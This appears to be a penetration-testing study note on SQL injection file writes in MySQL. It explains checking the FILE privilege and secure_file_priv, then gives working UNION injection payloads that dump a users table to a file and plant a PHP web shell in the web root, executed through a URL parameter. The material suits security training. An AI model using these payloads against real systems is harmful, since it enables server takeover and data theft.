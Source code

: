 Writing files is very restricted in modern DBMSes, it is disabled by default and requires certain privileges for DBAs to write files.

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled (see [[Reading Files]])
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

### secure_file_priv

If the secure_file_priv variable is set to NULL we don't have permission to read file from an location, if we have a folder in this value, we can only read from that folder (default in MySQL is `/var/lib/mysql-files`), if this value is empty (default in MariaDB) we have permission to read all files.

Query to obtain the value of this variable:
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

In MySQL global variables are stored in the table global_variables in INFORMATION_SCHEMA.

The UNION query:
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

## SELECT INTO OUTFILE

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) is used to write data from select queries into files.

An example to save the output of a table into a file:
```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

We can also directly select strings:
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

The files will be owned by `mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files Through SQL Injection

We can try writing data into a file using UNION, we can use "" instead of numbers to make the output cleaner:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Than we can go to the webroot and add `/proof.txt` to check for that file.

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

## Writing a Web Shell

Write a basic PHP shell to execute commands to the web root:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Execute a command:
```url
http://SERVER_IP:PORT/shell.php?0=id
```

